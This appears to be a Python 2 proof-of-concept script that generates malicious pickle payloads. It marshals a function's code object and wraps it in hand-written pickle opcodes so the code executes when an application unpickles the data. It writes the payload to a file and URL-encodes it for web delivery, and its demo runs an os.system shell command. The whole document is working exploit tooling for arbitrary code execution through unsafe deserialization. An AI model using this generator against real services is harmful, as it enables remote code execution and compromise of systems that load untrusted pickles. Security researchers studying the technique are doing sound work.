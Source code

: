 ```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_poc_gen0.py'

  import marshal
  import base64
  import cPickle
  import urllib

  def foo():#you should write your code in this function
      import os
      def fib(n):
          if n <= 1:
              return n
          return fib(n-1) + fib(n-2)
      print 'fib(10) =', fib(10)
      os.system('echo anycode >>poc.txt')

  try:#尝试使用cPickle来序列号代码对象
      cPickle.dumps(foo.func_code)
  except Exception as e:
      print e #TypeError: can't pickle code objects

  code_serialized = base64.b64encode(marshal.dumps(foo.func_code))
  print code_serialized

  
#为了保证code_serialized中的内容得到执行，我们需要如下代码
#(types.FunctionType(marshal.loads(base64.b64decode(code_serialized)), globals(), ''))()

payload =  """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))

print "------------------------------------------------"
print payload
fp =open("poc.pickle","w")
fp.write(payload)
print "------------------------------------------------"
print urllib.quote(payload)
```
